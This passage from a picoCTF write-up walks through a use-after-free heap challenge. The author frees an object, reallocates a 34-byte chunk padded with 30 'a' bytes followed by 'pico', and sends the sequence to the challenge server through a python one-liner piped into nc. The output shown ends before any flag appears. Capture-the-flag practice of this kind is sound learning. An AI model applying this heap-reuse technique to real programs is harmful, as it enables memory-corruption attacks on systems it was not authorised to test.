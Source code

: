 ```


x = aa

```
It works !! It did changed ! According to the bytes, we need at least 30 bytes to perform this attack.

Our target is "pico", so I will go with aaaaaaaaaaaaaaaaaaaaaaaaaaaaaapico !

```
Enter your choice: 2
Size of object allocation: 34
Data for flag: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaapico

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 3


x = pico


1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
```

We are in the right way ! Now just connect to the server and get the flag by this way.

Or we can simply let python enter those numbers for us :
```
└─$ python -c "print('5\n2\n34\n' + 'a'*30 + 'pico\n' + '4\n')" | nc tethys.picoctf.net 58941 

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 
1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: Size of object allocation: Data for flag: 
```